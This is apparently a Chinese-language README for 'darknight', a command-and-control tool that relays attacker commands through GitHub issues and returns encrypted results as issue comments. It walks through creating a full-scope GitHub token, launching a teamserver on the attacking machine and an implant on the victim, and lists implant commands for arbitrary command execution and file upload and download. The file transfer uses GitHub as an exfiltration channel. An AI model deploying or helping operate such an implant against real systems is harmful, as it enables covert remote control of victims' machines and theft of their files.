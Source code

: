 # darknight
**A C2 tool hidden in the darknight**

# 简略架构图

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017111505.png" alt="image-20241017111505799" style="zoom:50%;" />

## 获取github-token(classic)

进入设置

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017110836.png" alt="image-20241017110828736" style="zoom: 25%;" />

 进入开发者设置

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017110936.png" alt="image-20241017110935958" style="zoom:50%;" />

在token(classic)中选择generate new token

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017111054.png" alt="image-20241017111054689" style="zoom:50%;" />

填写名字、生效日期、以及勾上repo的所有权限，然后创建token即可，注意token只在创建时显示一次，注意保存

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017111243.png" alt="image-20241017111243628" style="zoom:50%;" />

最后的token形式大概是ghp_xxxxxxxx这样的

# 使用教程

> github相当于中间代理服务端，只需要用到api；
>
> teamserver是服务端/客户端，放在attacker上运行；
>
> implant是注入端，放在靶机上面运行；
>
> 运行过程：
>
> - teamserver输入命令，调用github-api发送新的issue标题包含该命令；
>
> - implant会执行轮询获取新的issue的标题，获取到新的命令；
> - implant执行命令获取结果，加密该结果后返回给github，调用github-api向原issue的评论写入该结果；
> - teamserver轮询检测到新的评论写入，获取加密结果进行解密，输出到控制台；

## teamserver和implant启动

```
# 需要在启动攻击机上启动teamserver，靶机上启动implant注入端
teamserver <AccessToken> <Username> <Repository>
implant <AccessToken> <Username> <Repository>
# 例如：
./teamserver ghp_xxxxxxxxx Sakura-501 github-c2-test
./implant ghp_xxxxxxxxx Sakura-501 github-c2-test
```

## 命令大全

- help：帮助手册

<img src="https://aliyunoss.sakura501.top/img/2024/10/17/20241017112501.png" alt="image-20241017112501343" style="zoom:50%;" />

- pwd：当前工作目录；
- whoami：当前用户名；
- cmd \<command\>：执行command命令；
- upload <local_file_path> <remote_file_name>：teamserver先上传本地文件local_file_path到github，并命名为remote_file_name，然后下载该remote_file_name到implant当前的工作目录；
- download <remote_file_name> <local_file_path>：implant先上传本地文件local_file_path到github，并命名为remote_file_name，然后下载该remote_file_name到teamserver当前的工作目录；
- exit：切断与implant的连接，终止implant进程运行；